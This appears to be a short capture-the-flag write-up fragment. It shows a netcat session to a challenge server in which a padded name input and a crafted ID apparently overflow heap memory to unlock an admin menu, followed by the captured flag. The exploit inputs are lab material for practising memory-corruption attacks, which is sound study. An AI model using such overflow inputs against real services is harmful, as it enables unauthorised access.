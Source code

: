 ```bash
$ nc 103.157.96.13 7773
-= Selamat datang di Sekolah CTFR =-

Silahkan Pilih Menu: 
1. Input Nama
2. Input ID
3. Reset
4. Akses Admin
Input : 1
Nama: AAAAAAAAAAAAAAAA

==============================
Selamat datang AAAAAAAAAAAAAAAA di sekolah CTFR
==============================

Silahkan Pilih Menu: 
1. Input Nama
2. Input ID
3. Reset
4. Akses Admin
Input : 2
ID: BBBBCCCC
ID Telah Diterapkan!

Silahkan Pilih Menu: 
1. Input Nama
2. Input ID
3. Reset
4. Akses Admin
Input : 4

==============================
= AKSES ADMIN DITERIMA =
==============================
Admin : Here is your flag CTFR{f1r5t_t1m3_d01n9_h34p_m3m0ry_3xpl01t1n9???}
```

Flag
```
CTFR{f1r5t_t1m3_d01n9_h34p_m3m0ry_3xpl01t1n9???}
```
